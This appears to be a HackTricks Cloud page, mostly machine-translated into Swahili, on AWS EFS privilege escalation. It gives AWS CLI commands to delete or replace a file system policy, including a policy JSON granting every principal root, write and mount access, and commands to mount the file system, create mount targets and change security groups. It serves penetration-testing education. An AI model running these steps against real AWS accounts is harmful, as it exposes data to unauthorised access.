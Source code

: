 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Kumbuka kwamba ili kuunganisha EFS unahitaji kuwa katika subnetwork ambapo EFS imewekwa wazi na kuwa na ufikiaji kwake (vikundi vya usalama). Ikiwa hii inatokea, kwa kawaida, utaweza kuunganisha kila wakati, hata hivyo, ikiwa inprotected na sera za IAM unahitaji kuwa na ruhusa za ziada zilizotajwa hapa ili kuweza kuzipata.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa ruhusa yoyote kati ya hizo mshambuliaji anaweza **kubadilisha sera ya mfumo wa faili** ili **kukupa ufikiaji** kwake, au tu **kuifuta** ili **ufikiaji wa kawaida** upatikane.

Ili kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Ili kubadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa ruhusa hii, mshambuliaji ataweza **kuunganisha EFS**. Ikiwa ruhusa ya kuandika haitolewi kwa default kwa kila mtu anayeweza kuunganisha EFS, atakuwa na **ufikiaji wa kusoma tu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
The extra permissions `elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Madhara Yanayoweza Kutokea:** Indirect privesc kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:CreateMountTarget`

Ikiwa wewe ni mshambuliaji yuko ndani ya **subnetwork** ambapo **hakuna mount target** ya EFS inapatikana. Anaweza tu **kuunda moja katika subnet yake** kwa ruhusa hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika hali ambapo mshambuliaji anapata kwamba EFS ina lengo la kuunganisha katika mtandao wake wa ndani lakini **hakuna kundi la usalama linaloruhusu trafiki**, anaweza tu **kubadilisha hilo kwa kubadilisha makundi ya usalama yaliyochaguliwa:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

